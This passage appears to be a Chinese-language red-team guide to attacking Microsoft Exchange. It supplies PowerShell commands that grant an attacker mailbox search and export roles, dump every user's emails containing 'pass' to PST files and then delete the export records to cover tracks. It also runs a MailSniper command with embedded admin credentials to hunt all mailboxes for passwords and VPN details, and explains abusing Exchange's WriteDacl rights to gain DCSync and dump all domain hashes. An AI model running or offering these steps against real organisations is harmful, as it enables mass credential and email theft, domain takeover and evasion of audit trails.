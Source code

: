 #### 全局搜索

两种方式搜索全局邮件，/PowerShell 或 /EWS。

1. 通过 /PowerShell 查询

如果用户拥有 Mailbox Import Export 和 Mailbox Search 角色则可以使用搜索和导出相关的 Cmdlet，老版本 Exchange 中这两个角色默认没有分配给任何用户或角色组，包括 Organization Management 组。在实战中，通常需要先用 Organization Management 组用户登录管理接口，给自己赋予这两个角色，再重新连接自动从远程会话获取相应 Cmdlet。
```
# 赋予角色，需要重新连接才能从远程会话获取相应 cmdlet
New-ManagementRoleAssignment -Role "Mailbox Search" -User enterprise_admin
New-ManagementRoleAssignment -Role "Mailbox Import Export" -User enterprise_admin

# 删除角色
Remove-ManagementRoleAssignment -Identity "Mailbox Search-enterprise_admin" -Confirm:$false
Remove-ManagementRoleAssignment -Identity "Mailbox Import Export-enterprise_admin" -Confirm:$false

# 导出所有邮箱正文中带 pass 的邮件，localhost 为 Exchange 服务器
Get-Mailbox -OrganizationalUnit Users -Resultsize unlimited |%{New-MailboxexportRequest -Mailbox $_.name -CompletedRequestAgeLimit 0 -ContentFilter {(body -like "*pass*")} -FilePath ("\\localhost\c$\test\"+($_.name)+".pst")}

# 删除导出记录，导出时不加 CompletedRequestAgeLimit 参数会留下导出记录
Get-MailboxExportRequest|Remove-MailboxExportRequest -Confirm:$false

# 搜索所有邮件，SearchQuery 只支持向后匹配，也可以匹配邮件其他位置比如收件人、发件人、CC 等
Get-Mailbox -OrganizationalUnit Users -Resultsize unlimited |%{Search-Mailbox -Identity $_.name -SearchQuery "pass*" -TargetMailbox "zhangsan" -TargetFolder "outAll" -LogLevel Suppress}
```

2. 通过 /EWS 查询

如果用户拥有 ApplicationImpersonation 角色则可以模拟其他用户登录 /EWS，进而通过 /EWS 编程实现搜索所有邮件的功能。在实战中，通常需要先用 Organization Management 组用户登录管理接口，给自己赋予这个角色，再通过 /EWS 搜索邮件。

这里修改了 MailSniper 脚本，优化授权生效时间、新增匹配附件名、优化输出内容、新增指定账密等：
```bash
# MailSniper.ps1
# 搜索所有邮件，需要提供管理员账号给用户授予 ApplicationImpersonation 权限
Invoke-GlobalMailSearch -Folder all -ImpersonationAccount enterprise_admin -ExchHostname win2012-ex2016.island.com -AdminUserName enterprise_admin -AdminPassword EA@123qwe -MailsPerUser 500 -Terms "*password*","*creds*","*credentials*","*测试*","*密码*","*拓扑*","*运维*","*VPN*","*账号*" -OutputCsv global-email-search.csv
```

---

### 攻击域管

#### ACL (已有 Exchange 服务器权限)

**描述**

在 Exchange 安装完后，域内会添加一个名为 Microsoft Exchange Security Groups 的 OU，其包括两个特殊的组：Exchange Windows Permissions 和 Exchange Trusted Subsystem，后者隶属于前者。所有的 Exchange 服务器都会加入 Exchange Trusted Subsystem 组，也就是 Exchange 服务器都继承了 Exchange Windows Permissions 组的权限，而该组拥有对域分区的 WriteDacl 权限，且可以继承。因此，在拿下 Exchange 服务器后，可以利用 Exchange 机器账户对域分区添加任意 ACL 进行提权，比如添加 Dcsync 权限导出域内所有 Hash。
